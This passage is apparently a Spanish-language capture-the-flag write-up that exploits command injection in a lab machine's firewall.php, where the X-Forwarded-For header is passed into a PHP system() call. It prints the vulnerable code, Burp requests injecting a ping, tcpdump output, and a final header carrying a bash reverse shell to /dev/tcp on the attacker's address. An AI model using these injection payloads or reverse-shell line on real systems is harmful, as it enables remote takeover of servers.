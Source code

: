 Comparacion para pillar la IP

```bash
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
```

Ejecucion a nivel de sistema , donde vemos que el parametro `$ip` es vulnerable a `Command Injection`

```bash
system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
```

Procedemos a inteceptar una peticion a la ruta `/firewall.php` a nivel web con `Burpsuite`

```bash
GET /firewall.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=5lool1v1b56bq1tf6n9bisijau
Upgrade-Insecure-Requests: 1
" X-FORWARDER-FOR: 1.1.1.1; ping -c 1 10.10.16.7 ; "
```

Nos ponemos a la escucha por nuestra consola con `tcpdump -i tun0` :

```bash
tcpdump -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
20:10:34.071410 IP 10.10.16.7.48718 > 10.10.11.128.http: Flags [S], seq 1366744572, win 64240, options [mss 1460,sackOK,TS val 2534213280 ecr 0,nop,wscale 7], length 0
20:10:34.144336 IP 10.10.11.128.http > 10.10.16.7.48718: Flags [S.], seq 329548905, ack 1366744573, win 65160, options [mss 1355,sackOK,TS val 1232939330 ecr 2534213280,nop,wscale 7], length 0
20:10:34.144354 IP 10.10.16.7.48718 > 10.10.11.128.http: Flags [.], ack 1, win 502, options [nop,nop,TS val 2534213353 ecr 1232939330], length 0
20:10:34.144462 IP 10.10.16.7.48718 > 10.10.11.128.http: Flags [P.], seq 1:423, ack 1, win 502, options [nop,nop,TS val 2534213353 ecr 1232939330], length 422: HTTP: GET /firewall.php HTTP/1.1
20:10:34.302406 IP 10.10.11.128.http > 10.10.16.7.48718: Flags [.], ack 423, win 506, options [nop,nop,TS val 1232939489 ecr 2534213353], length 0
```

Vemos que recibimos la traza ICMP correctamente a nuestro equipo, asique procedemos a intentar enviarnos una revershell a nuestro equip:

```bash
GET /firewall.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.128/challenge.php
Connection: close
Cookie: PHPSESSID=vtlolo0qm5uig3et8q279q9ico
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
X-FORWARDED-FOR: ; ping -c 1 10.10.16.7 && bash -c "bash -i >& /dev/tcp/10.10.16.7/443 0>&1"
```
